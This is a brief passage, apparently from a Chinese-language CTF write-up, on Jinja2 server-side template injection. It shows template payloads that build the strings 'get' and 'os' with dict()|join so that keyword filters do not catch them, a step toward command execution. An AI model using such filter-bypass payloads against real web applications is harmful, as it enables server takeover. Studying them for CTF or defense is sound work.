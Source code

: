 ![alt text](image-7.png)
获取os
首先需要获取get
{%set get=dict(get=a)|join%}{%print get%}
![alt text](image-9.png)
然后
然后我们可以获取os
{%set shell=dict(o=a,s=b)|join%}{%print shell%}